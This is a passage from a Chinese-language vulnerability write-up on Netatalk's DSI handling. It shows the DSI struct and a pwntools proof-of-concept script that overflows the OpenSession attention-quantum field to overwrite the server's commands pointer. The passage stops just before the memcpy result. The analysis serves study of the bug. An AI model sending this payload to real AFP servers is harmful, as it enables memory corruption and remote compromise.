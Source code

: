 ```c
    uint8_t dsi_command;     /* command */
    uint16_t dsi_requestID;  /* request ID */
    union {
        uint32_t dsi_code;   /* error code */
        uint32_t dsi_doff;   /* data offset */
    } dsi_data;
    uint32_t dsi_len;        /* total data length */
    uint32_t dsi_reserved;   /* reserved field */
};

#define DSI_DATASIZ       65536
```

所以可以覆写`attn_quantum/datasize/server_quantum/serverID/clientID/commands/data[DSI_DATASIZ]`这些成员。如果`commands`地址合法`server_quantum`会回传回来。

> 当服务器端主进程fork出一个新的连接后，`commands`指针的生命周期就开始了。当`dsi`结构初始化后，堆空间将分配出一块内存并赋给`commands`。每一条传入的AFP消息都将在被Netatalk的AFP函数处理前，先被写入`commands`指针里。`commands`占用的内存在连接终止后、程序退出前被释放。

所以输入的内容按照格式先存储在commands里然后再解析commands的内容。

跑一下这个poc:

```python
from pwn import *
import struct
p = remote("127.0.0.1", 5566)
dsi_opensession = "\x01" # attention quantum option
dsi_opensession += "\x18" # length
dsi_opensession += "A"*0x10+p64(0xdeadbeefcafebabe)  # 覆写commands指针为0xdeadbeefcafebabe
dsi_header = "\x00" # "request" flag
dsi_header += "\x04" # dsi_getsession中想要转到open_session需要dsi_command为DSIFUNC_OPEN
dsi_header += "\x00\x01" # request id
dsi_header += "\x00\x00\x00\x00" # data offset
dsi_header += struct.pack(">I", len(dsi_opensession))
dsi_header += "\x00\x00\x00\x00" # reserved
dsi_header += dsi_opensession
p.send(dsi_header)
p.recv(0x1c)
pause()
p.send(dsi_header)
p.interactive()
```

执行完memcopy函数后：
